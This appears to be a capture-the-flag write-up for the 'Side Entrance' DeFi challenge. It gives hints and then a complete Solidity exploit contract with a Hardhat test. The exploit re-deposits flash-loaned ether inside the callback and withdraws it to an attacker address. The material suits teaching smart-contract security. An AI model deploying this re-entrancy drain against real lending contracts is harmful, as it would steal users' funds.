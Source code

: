 # 4 - Side Entrance

### Hints

<details>

<summary>Hint One</summary>

You will need to deploy your own smart contract to solve this challenge.

</details>

<details>

<summary>Hint Two</summary>

This is a re-entrancy exploit.

</details>

<details>

<summary>Hint Three</summary>

The two `require` statements in `flashLoan` check the balance of the pool contract address is not less than it was before calling your contract’s `execute` function. This means that whatever exploit logic your `execute` function implements, it cannot decrement this balance. What else could it do?

</details>

### Scripted Solution

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

interface ISideEntranceLenderPool {
    function flashLoan(uint256 amount) external;

    function deposit() external payable;

    function withdraw() external;
}

contract SideEntranceLenderPoolExploit {
    ISideEntranceLenderPool private _sideEntranceLenderPool;

    /**
     * @dev Constructor sets `_sideEntranceLenderPool` contract.
     */
    constructor(address sideEntranceLenderPoolContractAddress) {
        _sideEntranceLenderPool = ISideEntranceLenderPool(
            sideEntranceLenderPoolContractAddress
        );
    }

    /**
     * @dev Calls `flashLoan` on `_sideEntranceLenderPool` with `amount`.
     */
    function flashLoan(uint256 amount) external payable {
        _sideEntranceLenderPool.flashLoan(amount);
    }

    /**
     * @dev Calls `deposit` on `_sideEntranceLenderPool`, passing `msg.value`.
     * This function is called during the flash loan function execution and
     * deposits the value of the loan into this contract's account.
     */
    function execute() external payable {
        _sideEntranceLenderPool.deposit{value: msg.value}();
    }

    /**
     * @dev Withdraws this contract's balance to `attackerAddress`.
     */
    function withdraw(address payable attackerAddress) external {
        _sideEntranceLenderPool.withdraw();

        payable(attackerAddress).send(address(this).balance);
    }

    receive() external payable {}
}

```

```javascript
it('Exploit', async function () {
  // Deploy exploit contract
  const SideEntranceLenderPoolExploitFactory =
      await ethers.getContractFactory('SideEntranceLenderPoolExploit', deployer)
  const poolExploit = await SideEntranceLenderPoolExploitFactory.deploy(
      this.pool.address
  )

  // Initiate flash loan from exploit contract
  await poolExploit.flashLoan(ethers.utils.parseEther('1000.00'))

  // Withdraw balance to attacker address
  await poolExploit.withdraw(attacker.address)
})
```

